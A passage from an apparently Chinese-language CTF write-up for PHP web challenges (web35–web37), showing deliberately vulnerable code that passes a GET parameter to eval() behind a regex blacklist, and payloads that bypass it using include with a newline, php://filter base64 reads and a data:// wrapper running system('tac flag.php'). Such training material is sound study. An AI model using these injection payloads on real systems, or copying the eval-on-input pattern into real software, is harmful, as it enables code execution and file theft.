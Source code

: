 ```php
    highlight_file(__FILE__);
}
```

比上题又多过滤了<和=,感觉还能用？

果然如此。。。。

pyload1:?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

pyload2:?c=include%0a$_POST[a]?>

post:a=data://text/plain,\<?php eval(system("tac flag.php"))?>

### web36

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:16
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这比上面多过滤了/和数字，障眼法，pyload依然能用，把1改为字母即可

pyload1:?c=include%0a$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php

pyload2:?c=include%0a$_POST[a]?>

post:a=data://text/plain,\<?php eval(system("tac flag.php"))?>

### web37,分割上面

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
```